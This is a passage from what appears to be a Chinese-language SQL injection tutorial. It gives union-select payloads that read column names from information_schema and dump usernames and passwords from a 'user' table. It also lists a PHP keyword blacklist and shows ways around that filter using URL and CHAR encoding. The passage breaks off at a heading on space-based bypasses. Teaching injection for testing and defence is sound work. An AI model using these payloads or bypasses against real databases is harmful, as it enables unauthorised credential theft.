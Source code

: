 6）读列信息（以下语句将数据库表user的所有列（字段）名读出来）

```
id=-2 union select group_concat(' ',column_name),2,3 
from information_schema.columns 
where table_schema='test' and table_name='user'
```

![image-20191125224038994](./sqli/25.png)

7）读数据信息

```
id=-2 union select group_concat(' ',username,' ',password),2,3 from test.user
```

![image-20191125224851980](./sqli/26.png)

## 三、一些被过滤情况

在php代码中添加if语句过滤掉关键字

```
and | select | update | chr | delete | %20from | ; | insert | mid | master. | set | =
```

对于绕过，收集了一些情况：

1、运用编码技术绕过

如URLEncode编码，ASCII编码绕过。例如or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。

 

2、通过空格绕过
